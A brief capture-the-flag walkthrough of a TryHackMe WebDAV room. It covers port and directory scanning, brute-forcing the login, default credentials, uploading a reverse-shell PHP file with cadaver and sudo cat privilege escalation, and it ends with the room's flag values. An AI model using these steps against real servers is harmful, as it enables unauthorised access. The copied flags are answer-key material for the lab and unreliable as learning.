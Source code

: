 ![image](https://github.com/user-attachments/assets/79c68b65-b994-4e8d-bfb5-1d51c9390bcb)

# webDEV Writeup
Here is the web dev challange from TryHackMe [link](https://tryhackme.com/r/room/bsidesgtdav)
## Enumiration
Used nmap to find the open ports in the server.
```bash
nmap -sV -sC 10.10.209.142 | tee nmap.scan 
```
```nmap.scan
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```
## Enumirate the hidden directories
Enumirating for the hidden directories using dirsearch 
```bash
dirsearch -u http://10.10.209.142
```
I found that there is a webserver with the name `WebDAV`.
## Thats a webDev server 
__New Learning__ 
WebDAV is a webserver that can be used to host websites using apache.
Remember to check whether the server hosted is a standard server. Because if its a standard server we may have chance to check the vulnerabilities.
## Into the webserver
- I have checked for the address `http://10.10.209.142/webdav/`. There is a prompt for authentication.
- I have used burpsuite to bruterforce the login.
- Since we dont know the username i tried it with `admin` and passwords for `rockyou.txt`. But whatif the user called admin doesnt exsist?
- Hence aborted the bruteforce and checked the writeups
- Found that the `WebDAV` server is a standard server and googled up for the default crediantials for the webserver.
- Their defaults are username `wampp` password `xampp`.
WebDAV server -> default crediantiasls -> logged in
## Found a hash in there of type apache 
__New Learning__
```bash
cadaver http://10.10.209.142/webdav/ 
put /revrseshell.php/
```
Used cadaver to upload the revershell script into a directory.``
listen to the ip address and then we can access the shell
## sudo -l
I saw that the /bin/cat command can be accessed by the `www-data` used with sudo previlags and thats it we can cat the crediantials in root.
## Here are the flags
user.txt -> 449b40fe93f78a938523b7e4dcd66d2a

root.txt -> 101101ddc16b0cdf65ba0b8a7af7afa5
